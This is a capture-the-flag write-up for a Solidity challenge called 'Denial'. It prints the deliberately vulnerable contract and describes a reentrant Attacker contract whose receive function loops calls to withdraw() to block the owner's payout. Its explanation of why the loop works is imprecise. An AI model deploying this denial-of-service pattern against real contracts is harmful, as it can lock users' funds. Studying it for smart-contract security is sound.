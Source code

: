 # Denial

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
contract Denial {

    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] +=  amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## Goal

Deny the owner from withdrawing funds when they call withdraw()

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

Within the Attacker contract, we can make reentrant call to the withdraw() function up until the balance of ether in the Denial contract is greater than 0.
This will cause the amountToSend variable to become 0, because of the following division:

```
uint amountToSend = address(this).balance / 100;
```

while the contract still holds small amount of ETH.

To exploit the contract we need to:

1. create Attacker contract, and create instance from the Denial contract inside the Attacker contract
2. in the constructor of the Attacker contract, we need to set the Attacker contract as partner
3. in the receive function of the Attacker we need to make reentrant call to the withdraw() function of the Denial contract, as long as the balance of ETH in Denial is greater than 0.
4. we need to call the withdraw() function inside Denial contract

## Attacker contract code

```
contract Attacker {
    Denial private denial;
    constructor(Denial _denial) {
        denial = Denial(_denial);
        denial.setWithdrawPartner(address(this));
    }

    receive() external payable {
        while(address(denial).balance > 0) {
            denial.withdraw();
        }
    }
}
```